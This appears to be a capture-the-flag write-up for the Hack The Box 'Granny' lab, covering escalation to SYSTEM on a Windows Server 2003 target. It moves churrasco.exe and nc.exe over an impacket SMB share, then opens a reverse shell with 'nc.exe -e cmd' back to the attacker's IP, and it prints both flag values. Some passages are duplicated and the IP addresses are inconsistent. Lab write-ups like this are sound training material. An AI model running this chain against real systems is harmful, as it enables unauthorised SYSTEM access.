First, we will identify what kind of machine we are dealing with.
```bash
$ systeminfo
```



To check the privileges assigned to our current user, we can do the following.
```bash
$ whoami /priv
```




We can see that the `SeImpersonatePrivilege` is enabled. Under normal circumstances, this would make privilege escalation trivial using tools like **Juicy Potato**. However, since the target is a 32-bit Windows Server 2003 system, this scenario is not supported, and attempting to use it could lead to execution issues.
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

So we can search in google how to use juicy-potato on Windows server 2003 → https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/
If we continue browsing this website, we find a case similar to ours that explains how to perform privilege escalation on a Windows Server 2003 system → https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/

As stated on the referenced website, we need to transfer the files mentioned in the article via SMB. To do this, we will set up an SMB server.
```bash
$ impacket-smbserver smbFolder $(pwd) 
```
The command `impacket-smbserver smbFolder $(pwd)` starts a temporary SMB file-sharing server using the Impacket toolkit.

- **impacket-smbserver**: A utility provided by Impacket that allows us to quickly create an SMB server without needing a full Samba configuration.
- **smbFolder**: This is the name of the shared folder that will be exposed to the target system. It is the share name the remote machine will connect to.
- **$(pwd)**: This expands to the current working directory on the attacker’s machine, meaning all files in the current directory will be shared over SMB.

As a result, the target system can access the shared files by connecting to `\\<ATTACKER_IP>\smbFolder`, making it easy to transfer tools and binaries to the compromised host.



And in our reverse shell session we do (with our IP adress) we will see our “churrasco.exe” to execute in the target machine
```bash
$ c:\>dir  \\10.10.16.94\smbFolder\
```




So let's move “churrasco.exe” to our target machine like this;
```bash
$ copy \\10.10.16.63\smbFolder\churrasco.exe churrasco.exe 
```
The command `copy \\10.10.16.63\smbFolder\churrasco.exe churrasco.exe` is used on the target Windows machine to download a file from the attacker’s SMB share.

- **copy**: A Windows command that copies files from one location to another.
- **\\10.10.16.63\smbFolder\churrasco.exe**: The UNC path pointing to the `churrasco.exe` file hosted on the attacker’s SMB server at IP `10.10.16.63`, inside the shared folder named `smbFolder`.
- **churrasco.exe**: The destination filename on the target system. The file will be saved in the current working directory.

This allows the attacker to transfer the `churrasco.exe` binary from their machine to the compromised Windows host in preparation for privilege escalation.

Befor to execute the command, we ned to move to 
```bash
$ cd WINDOWS\Temp
```
And in our reverse shell session we do (with our IP adress) we will see our “churrasco.exe” to execute in the target machine
```bash
$ c:\>dir  \\10.10.16.94\smbFolder\
```


So let's move “churrasco.exe” to our target machine like this;
```bash
$ copy \\10.10.16.94\smbFolder\churrasco.exe churrasco.exe 
```
The command `copy \\10.10.16.94\smbFolder\churrasco.exe churrasco.exe` is used on the target Windows machine to download a file from the attacker’s SMB share.

- **copy**: A Windows command that copies files from one location to another.
- **\\10.10.16.63\smbFolder\churrasco.exe**: The UNC path pointing to the `churrasco.exe` file hosted on the attacker’s SMB server at IP `10.10.16.63`, inside the shared folder named `smbFolder`.
- **churrasco.exe**: The destination filename on the target system. The file will be saved in the current working directory.

This allows the attacker to transfer the `churrasco.exe` binary from their machine to the compromised Windows host in preparation for privilege escalation.

Befor to execute the command, we ned to move to 
```bash
$ cd WINDOWS\Temp
```


To check that the file has been copied corretly
```bash
$ dir
```


We can try to execute the program, but it will result in an error.



We need to pass a command to run
```bash
$ churrasco.exe "whoami"
```



What we will do next is forward this SYSTEM-level connection back to our own machine. We need a netcat listener so we will to open
```bash
$ nc -lnvp 443
```



And in our reverse shell we execute the following commando to send this connection to our listener ( we need to know where is nc.exe)
```bash
$ locate nc.exe
```


We copy the first line in our actual direcotry and then we will execute the following command in our reverse shell
```bash
$ cp /home/kali/SecLists/Web-Shells/FuzzDB/nc.exe ~/Desktop/HTB_CTF/Granny/
```


```bash
$ churrasco.exe "\\10.10.16.94\smbFolder\nc.exe -e cmd 10.10.16.94 443"  (Sometimes we need to shot this command twice)
```





Root Flag is in C: \Documents and Settings\Administrator\Desktop
```bash
Root Flag --> aa4beed1c0584445ab463a6747bd06e9
```



User Flag is in C:\Documents and Settings\Lakis\Desktop
```bash
User Flag → 700c5dc163014e22b3e408f8703f67d1
```


[Back](README.md)